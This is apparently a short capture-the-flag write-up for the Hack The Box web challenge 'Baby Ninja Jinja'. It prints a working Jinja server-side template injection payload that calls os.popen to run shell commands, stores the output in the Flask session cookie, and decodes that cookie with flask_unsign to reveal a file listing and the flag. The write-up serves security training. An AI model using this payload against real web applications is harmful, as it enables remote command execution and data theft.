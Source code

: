 ```yaml
---
layout: single
title: Baby Ninja Jinja [Web] - Hack The Box
excerpt: "ECSC Prep"
date: 2021-12-21
classes: wide
header:
  teaser: 
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - HackTheBox
  - Web Challenge
tags:  
  - Server Site Template Injection (SSTI)
---
```


## Server Site Template Injection (SSTI)

### Payload:
`{ % +if+session.update({request.args.se:request.application.__globals__.__builtins__.__import__(request.args.os).popen(request.args.command).read()})+==+1+%}{     %+endif+%}&se=asdf&os=os&command=ls`
Send with burp and catch the cookie 


### Decrypt the cookie
`python3 -m flask_unsign --decode --cookie 'eyJhc2RmIjp7IiBiIjoiWVhCd0xuQjVDbVpzWVdkZlVEVTBaV1FLYzJOb1pXMWhMbk54YkFwemRHRjBhV01LZEdWdGNHeGhkR1Z6Q2c9PSJ9fQ.YbjQqA.93wY4QZCcECpbS6nymhYxOknl-g'`<br><br>
Results
`{'asdf': b'app.py\nflag_P54ed\nschema.sql\nstatic\ntemplates\n'}`

### Decrypt the cookie with the flag
`python3 -m flask_unsign --decode --cookie 'eyJhc2RmIjp7IiBiIjoiU0ZSQ2UySTBZbmxmYm1sdWFqUnpYMlF3Ym5SZlp6TjBYM0YxTUhRelpGOHdjbDlqTkhWbmFGUjlDZz09In19.YbjREw.5Md5yXa0JNbPGEgdpxIAWr5A69Q'` <br> <br>
Results
`{'asdf': b'HTB{b4by_ninj4s_d0nt_g3t_qu0t3d_0r_c4ughT}\n'}
`

